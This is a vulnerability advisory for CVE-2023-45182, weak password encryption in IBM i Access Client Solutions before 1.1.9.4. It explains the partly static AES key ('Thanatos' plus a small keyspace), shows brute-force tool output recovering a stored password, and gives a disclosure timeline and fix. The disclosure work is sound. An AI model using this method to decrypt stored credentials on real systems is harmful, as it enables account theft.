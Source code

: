 # CVE-2023-45182
IBM i Access Client Solutions < 1.1.9.4 - Weak password encryption 

## Timeline
- Vulnerability reported to vendor: 22.09.2023
- New fixed 1.1.9.4 version released: 08.12.2023
- Public disclosure: 15.12.2023

## Description

IBM i Access Client Solutions for storing user passwords uses AES algorith however 16 bytes encryption key is the combination of static string (`Thanatos`) and random characters from string which consists of another static string (`Behemoth`) combined with username, users' home folder, OS (for example `Linux`) combined with current directory where the application was started. As a result half of the encryption key is static (string `Thanatos`) whereas the second half is very limited. This makes it very easy for an attacker to brute force password even on a single CPU core.

Here is an example of password decryption of `mmajchrowicz` user using the `as400_password_bruteforce_tool.java` script from the `mkubiak` account:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ java as400_password_bruteforce_tool.java mmajchrowicz_funciton_admin_work.bin Linux mmajchrowicz /opt

IBM AS400 Password Bruteforce Tool v0.3 by Michał Majchrowicz AFINE Team

Full keyspace: mmajchrowiczLinux/opt/home/mmajchrowiczBehemoth
Full keyspace length: 47

Reduced keyspace: BmajchrowizLnux/pte
Reduced keyspace length: 19

Found good pass: Thanatosaun/Lcmo

Encrypted system password 7 bytes:
2E 1B 10 0A 1B 0D 0A
Decrypted system password 7 bytes:
50 65 6E 74 65 73 74

Decrypted system password: Pentest
```

This problem was caused by application of weak password encryption. This issue is fixed in IBM i Access Client Solutions 1.1.9.4.

## Affected versions
< 1.1.9.4

## Advisory
Update IBM i Access Client Solutions to 1.1.9.4 or newer.

### References
* https://www.ibm.com/support/pages/node/7091942
* https://nvd.nist.gov/vuln/detail/CVE-2023-45182
